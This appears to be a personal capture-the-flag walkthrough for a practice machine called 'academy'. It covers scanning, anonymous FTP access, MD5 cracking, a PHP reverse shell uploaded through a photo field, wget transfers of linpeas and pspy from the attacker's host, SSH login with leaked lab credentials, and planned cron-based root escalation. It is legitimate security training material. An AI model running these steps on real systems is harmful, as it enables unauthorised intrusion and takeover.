



Password: tcm
IP: 192.168.64.3

## Reconaissance/Enumeration

- nmap -A -p- -T4 192.168.64.3
```
──(kali㉿kali)-[~]
└─$ nmap -A -p- -T4 192.168.64.3
Starting Nmap 7.94 ( https://nmap.org ) at 2024-06-19 15:44 PDT
Nmap scan report for 192.168.64.3
Host is up (0.0071s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.64.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.61 seconds
```

**Port 21 - VSFTPD is open**
**Port 80** - **Open**
**Port22** - **Open**

## Enumerate the HTTP

- Access the http://192.168.64.3


Checking path in the web reveals the Apache version


**Note: Finding revealing too much information**

## Exploiting FTP

username: anonymous
password: anonymous

```
ftp 192.168.64.3
Connected to 192.168.64.3.
220 (vsFTPd 3.0.3)
Name (192.168.64.3:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 

```

Download the files in ntp
- using `get` for download and `put` for upload
- for this one, we will use the `get`
```
ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||51850|)
150 Opening BINARY mode data connection for note.txt (776 bytes).
100% |********************************|   776       11.93 MiB/s    00:00 ETA
226 Transfer complete.
776 bytes received in 00:00 (124.80 KiB/s)
ftp> 

```

- Checking the content of the downloaded note.txt. We see a list of username and password that will be insert into the database.
```
┌──(kali㉿kali)-[~]
└─$ cat note.txt 
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.


I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.


Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta

```

### Lets check the value of the hash

- We can use the `hash-identifier` service in the kali
- In the results, it said that it must be MD5 Hash
```
┌──(kali㉿kali)-[~]
└─$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: cd73502828457d15655bbd7a63fb0bc8

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))


```

- Run the hashcat
	- Locate the rockyou.txt first
		- `locate rockyou.txt`
	- save the hash value in hashes.txt
		- `mousepad hashes.txt` or `vi hashes.txt`
	- Run the hashcat. It will take a while, it consumes your GPU
		- `hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt`
		- 0 means MD5
		- As checked, the password is **student**

```
Host memory required for this attack: 1 MB

Dictionary cache building /usr/share/wordlists/rockyou.txt: 33553434 bytes (2Dictionary cache building /usr/share/wordlists/rockyou.txt: 67106869 bytes (4Dictionary cache building /usr/share/wordlists/rockyou.txt: 100660302 bytes (Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 4 secs

cd73502828457d15655bbd7a63fb0bc8:student                  
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: cd73502828457d15655bbd7a63fb0bc8
Time.Started.....: Wed Jun 19 16:22:16 2024 (0 secs)
Time.Estimated...: Wed Jun 19 16:22:16 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     9626 H/s (0.50ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2048/14344385 (0.01%)
Rejected.........: 0/2048 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> lovers1

Started: Wed Jun 19 16:20:33 2024
Stopped: Wed Jun 19 16:22:18 2024

```

When you use `--show` after the hashchat finisihed, you will see that the password is student

You also see
┌──(root㉿kali)-[~]
└─# hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt --show
cd73502828457d15655bbd7a63fb0bc8:student


## Using the dirb 

dirbuster to check the directories

- `dirb http://192.168.64.3`
It will check all he directories exists in the machine


```
┌──(kali㉿kali)-[~]
└─$ dirb http://192.168.64.3

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Jul  3 15:46:52 2024
URL_BASE: http://192.168.64.3/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

                                                                             GENERATED WORDS: 4612

---- Scanning URL: http://192.168.64.3/ ----
                                                                             + http://192.168.64.3/index.html (CODE:200|SIZE:10701)                      
                                                                             ==> DIRECTORY: http://192.168.64.3/phpmyadmin/
+ http://192.168.64.3/server-status (CODE:403|SIZE:277)                     
                                                                            
---- Entering directory: http://192.168.64.3/phpmyadmin/ ----
                                                                             + http://192.168.64.3/phpmyadmin/ChangeLog (CODE:200|SIZE:17598)            
                                                                             ==> DIRECTORY: http://192.168.64.3/phpmyadmin/doc/

```


## Using tool ffuf

- Install the ffuf first
```
┌──(root㉿kali)-[~]
└─# apt install ffuf
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
ffuf is already the newest version (2.1.0-1).
ffuf set to manually installed.
The following packages were automatically installed and are no longer required:
  cython3 libboost-dev libboost1.74-dev libgphoto2-l10n libnsl-dev
  libopenblas-dev libopenblas-pthread-dev libopenblas0
  libpthread-stubs0-dev libpython3-all-dev libtirpc-dev libucl1
  libxsimd-dev python3-all-dev python3-backcall python3-beniget
  python3-future python3-gast python3-jdcal python3-pickleshare
  python3-pyminifier python3-pythran python3-requests-toolbelt
  python3-rfc3986 python3-unicodecsv zenity zenity-common
Use 'apt autoremove' to remove them.
0 upgraded, 0 newly installed, 0 to remove and 843 not upgraded.

```

- Execute the ffuf
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.64.3/FUZZ

```
	- You can limit certain responses of ffuf

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.64.3/FUZZ -mc 200,204,301,302,307,401,403,405

```

Here is the output of ffuf

```
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.64.3/FUZZ -mc 200,204,301,302,307,401,403,405

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.64.3/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

# on atleast 2 different hosts [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 9ms]
# Copyright 2007 James Fisher [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 26ms]
#                       [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 26ms]
# directory-list-2.3-medium.txt [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 18ms]
#                       [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 25ms]
                        [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 28ms]
#                       [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 39ms]
# Attribution-Share Alike 3.0 License. To view a copy of this  [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 28ms]
# Priority ordered case sensative list, where entries were found  [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 742ms]
# This work is licensed under the Creative Commons  [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 793ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/  [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 836ms]
# or send a letter to Creative Commons, 171 Second Street,  [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 881ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 902ms]
#                       [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 949ms]
academy                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 10ms]
phpmyadmin              [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 3ms]
                        [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 12ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 24ms]
:: Progress: [220560/220560] :: Job [1/1] :: 2898 req/sec :: Duration: [0:01:12] :: Errors: 0 ::

```


- As checked in ffuf, there is web directory `academy` ->
```
academy                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 10ms]

```

- Now access the academy http://192.168.64.3/academy




Based from the database:

```
INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');
```

The StudentRegNo is **10201321** and the password is the decoded cd73502828457d15655bbd7a63fb0bc8 which is **student**


![[Pasted image 20240706003400.png]]


Searching for php revere shell online

We found out https://github.com/pentestmonkey/php-reverse-shell

Copy the code https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php to your kali

In the php-reverse-shell.php code, we need to change the IP address(ip of our kali). WE can change the port number as well but now we will leave this as port 1234


![[Pasted image 20240706003924.png]]

Our Kali's Ip address is 192.168.64.4

Now, we will do reverse shell in our kali while uploading rever shell php code into the student photo

![[Pasted image 20240706004736.png]]


![[Pasted image 20240706005720.png]]

upload the shell.php you created/downloaded from the site. while doing the reverse shell. As you see below:

We were able to access the shell while doing the reverse shell

![[Pasted image 20240706005903.png]]


However, we are not the root user. As seen in the image below, we cannot do sudo

![[Pasted image 20240706010105.png]]


We will now search for linpeas online to do privilege escalation

Here is the linpeas --> https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

You can wget the script https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh in  /root/transfer

```
┌──(root㉿kali)-[~]
└─# mkdir /transfer    
┌──(root㉿kali)-[~]
└─# cd /transfer  
┌──(root㉿kali)-[/transfer]
└─# wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh


```

Now lets do the privilege escalation


![[Pasted image 20240706011130.png]]


Now we will do the download or `wget` to copy the linpeas to the shell(of the remote machine) that we access using our kali

![[Pasted image 20240706011330.png]]


```┌──(root㉿kali)-[~]
└─# nc -nvlp 1234                                                  
listening on [any] 1234 ...
connect to [192.168.64.4] from (UNKNOWN) [192.168.64.3] 43132
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 00:56:22 up 45 min,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                23:40    1:15m  0.22s  0.11s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ sudo i
/bin/sh: 2: sudo: not found
$ locate sudo
/bin/sh: 3: locate: not found
$ 
$ 
$ cd /tmp       
$ pwd
/tmp
$ wget http://192.168.64.4/linpeas.sh
--2024-07-06 01:13:44--  http://192.168.64.4/linpeas.sh
Connecting to 192.168.64.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 157746 (154K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... .......... 32% 22.5M 0s
    50K .......... .......... .......... .......... .......... 64% 57.7M 0s
   100K .......... .......... .......... .......... .......... 97% 15.4M 0s
   150K ....                                                  100% 15.5M=0.006s

2024-07-06 01:13:44 (23.4 MB/s) - 'linpeas.sh' saved [157746/157746]

$ 
$ ls
linpeas.sh
$ chmod +x linpeas.sh
$ ls
linpeas.sh
$ ./linpeas.sh  

```

### Note some important information

```
/var/www/html/academy/admin/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";
/var/www/html/academy/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";

```

![[Pasted image 20240706013553.png]]

Backup file seen

```
╔══════════╣ Backup files (limited 100)
-rwxr-xr-- 1 grimmie administrator 112 May 30  2021 /home/grimmie/backup.sh 
```

![[Pasted image 20240706013836.png]]


Checking the config.php in the shell 

```
$ cat /var/www/html/academy/admin/includes/config.php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");


?>

```

When we go to cat /etc/passwd we see the user grimmie......
... Hence, there is a user grimmie and we can try the "My_V3ryS3cur3_P4ss" to access via ssh

Here is the result:

```
┌──(root㉿kali)-[~]
└─# ssh grimmie@192.168.64.3
The authenticity of host '192.168.64.3 (192.168.64.3)' can't be established.
ED25519 key fingerprint is SHA256:eeNKTTakhvXyaWVPMDTB9+/4WEg6WKZwlUp0ATptgb0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.64.3' (ED25519) to the list of known hosts.
grimmie@192.168.64.3's password: 
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun May 30 03:21:39 2021 from 192.168.10.31
grimmie@academy:~$ 

```


![[Pasted image 20240706015231.png]]


Lets see if we have root privilege. As checked, we have no root privilege and we cant check the cron jobs

```
grimmie@academy:~$ cat backup.sh 
#!/bin/bash

rm /tmp/backup.zip
zip -r /tmp/backup.zip /var/www/html/academy/includes
chmod 700 /tmp/backup.zip
grimmie@academy:~$ sudo -l
-bash: sudo: command not found
grimmie@academy:~$ sudo -i
-bash: sudo: command not found
grimmie@academy:~$ cat backup.sh 
#!/bin/bash

rm /tmp/backup.zip
zip -r /tmp/backup.zip /var/www/html/academy/includes
chmod 700 /tmp/backup.zip
grimmie@academy:~$ crontab -l
no crontab for grimmie
grimmie@academy:~$ crontab -u root -l
must be privileged to use -u

```


List the timers

```
grimmie@academy:~$ systemctl list-timers
NEXT                         LEFT          LAST                         PASSE
Sat 2024-07-06 02:09:00 EDT  3min 44s left Sat 2024-07-06 01:39:01 EDT  26min
Sat 2024-07-06 06:32:38 EDT  4h 27min left Fri 2024-07-05 23:39:52 EDT  2h 25
Sat 2024-07-06 14:54:51 EDT  12h left      Fri 2024-07-05 23:39:52 EDT  2h 25
Sun 2024-07-07 00:00:00 EDT  21h left      Sat 2024-07-06 00:27:52 EDT  1h 37
Sun 2024-07-07 00:00:00 EDT  21h left      Sat 2024-07-06 00:27:52 EDT  1h 37
Sun 2024-07-07 00:27:22 EDT  22h left      Fri 2024-07-05 23:55:01 EDT  2h 10

6 timers listed.
Pass --all to see loaded but inactive timers, too.

```

We want validation that it is indeed running on a timer
Lets go to google and search pspy

Download the 64 bit static version

![[Pasted image 20240706020854.png]]

Copy the pspy to the /transfer. Remember you have listerner `python -m http.server 80`

```
┌──(root㉿kali)-[~]
└─# cp Downloads/pspy64 /transfer  
┌──(root㉿kali)-[~]
└─# ls /transfer                                  
linpeas.sh  pspy64


```

```
grimmie@academy:/tmp$ wget http://192.168.64.4/pspy64
--2024-07-06 02:13:38--  http://192.168.64.4/pspy64
Connecting to 192.168.64.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64              100%[================>]   2.96M  --.-KB/s    in 0.04s   

2024-07-06 02:13:39 (83.1 MB/s) - ‘pspy64’ saved [3104768/3104768]

```

We successfully transferred the file

```
┌──(root㉿kali)-[/transfer]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.64.3 - - [05/Jul/2024 22:22:02] "GET /linpeas.sh HTTP/1.1" 200 -
192.168.64.3 - - [05/Jul/2024 23:13:38] "GET /pspy64 HTTP/1.1" 200 -


```


Then change the pspy64 permission to execute

```
grimmie@academy:/tmp$ ls
backup.zip
pspy64
systemd-private-d9c78159cffd499cbaf2fb4263b9ae91-apache2.service-OgQyDD
systemd-private-d9c78159cffd499cbaf2fb4263b9ae91-systemd-timesyncd.service-GnGCMy
grimmie@academy:/tmp$ chmod +x pspy64

```

Run the pspy64. We will see all the process running in the machine

```
./pspy64
```

![[Pasted image 20240706021726.png]]


We can indeed see that the backup is running

![[Pasted image 20240706021821.png]]


Now we can use the backup.sh to hack into the root
To hack the root, search reverse shell bash one line in your browser

Here is the link:

https://academy.tcm-sec.com/courses/1152300/lectures/34117488

